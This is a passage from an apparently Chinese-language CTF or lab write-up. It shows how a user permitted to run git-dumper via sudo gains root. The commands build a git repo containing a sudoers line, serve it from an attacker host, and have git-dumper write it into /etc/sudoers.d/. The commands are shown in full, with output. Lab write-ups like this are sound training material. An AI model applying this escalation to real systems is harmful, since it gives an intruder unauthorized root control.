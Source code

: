 ## 2. 从 `sky` 到 `root` (`git-dumper` 提权)

使用 `sudo -l` 命令检查 `sky` 用户的权限，发现该用户可以无密码执行 `/usr/local/bin/git-dumper` 命令。

```bash
sky@sky:~$ sudo -l
...
User sky may run the following commands on sky:
    (ALL) NOPASSWD: /usr/local/bin/git-dumper
```

`git-dumper` 工具用于从网站下载暴露的 `.git` 仓库。其接受两个主要参数：源 URL 和输出目录。由于 `sudo` 允许以 root 身份运行此程序，并且可以指定任意输出目录，这便构成了一个典型的**任意文件写入**漏洞。 我们可以利用此漏洞向 `/etc/sudoers.d/` 目录写入一个自定义的 sudoers 配置文件，从而为 `sky` 用户授予完全的 root 权限。

**攻击步骤：**

1.  **在攻击机 (Kali) 上创建恶意 git 仓库：**
    *   创建一个新目录并初始化为 git 仓库。
    *   在仓库中创建一个文件（例如 `sky_privs`），内容为 `sky ALL=(ALL:ALL) NOPASSWD: ALL`。
    *   将此文件添加到 git 并提交。
    *   在仓库目录下启动一个临时的 HTTP 服务器。

    ```bash
    # 在 Kali 上执行
    ┌──(kali㉿kali)-[/tmp]
    └─$ mkdir git_exploit && cd git_exploit
    ┌──(kali㉿kali)-[/tmp/git_exploit]
    └─$ git init
    ┌──(kali㉿kali)-[/tmp/git_exploit]
    └─$ echo "sky ALL=(ALL:ALL) NOPASSWD: ALL" > sky_privs
    ┌──(kali㉿kali)-[/mnt/…/gx/x/tmp/gitexp]
    └─$ git config user.name "xxoo"
    ┌──(kali㉿kali)-[/mnt/…/gx/x/tmp/gitexp]
    └─$ git config user.email "xxoo@x.com"
    ┌──(kali㉿kali)-[/tmp/git_exploit]
    └─$ git add sky_privs && git commit -m "pwn"
    ┌──(kali㉿kali)-[/tmp/git_exploit]
    └─$ python3 -m http.server 80

2. **在靶机上利用 `git-dumper` 写入文件：**

   *   以 `sky` 用户身份，使用 `sudo` 执行 `git-dumper`。
   *   URL 指向攻击机的 HTTP 服务器。
   *   输出目录指定为 `/etc/sudoers.d/`。`git-dumper` 会将仓库中的文件恢复到该目录。

   ```bash
   # 在靶机上执行
   sky@sky:~$ sudo /usr/local/bin/git-dumper http://192.168.205.128 /etc/sudoers.d/
   ...
   [-] Running git checkout .
   Updated 1 path from the index
   ```

